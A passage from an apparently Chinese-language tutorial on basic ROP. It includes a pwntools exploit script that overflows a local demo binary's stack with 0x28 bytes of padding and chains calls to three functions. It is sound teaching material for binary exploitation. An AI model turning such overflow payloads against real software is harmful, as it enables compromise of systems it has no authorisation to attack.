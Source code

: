 ```c
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

func1_address = elf.sym["func1"]
func2_address = elf.sym["func2"]
func3_address = elf.sym["func3"]

payload = b"A" * 0x28
payload += p64(func1_address)
payload += p64(func2_address)
payload += p64(func3_address)

p.send(payload)

p.interactive()
```

单看这个脚本可能会有点抽象，下面是栈帧变化的动画演示：

![img](images/ROP/basic_rop.gif)
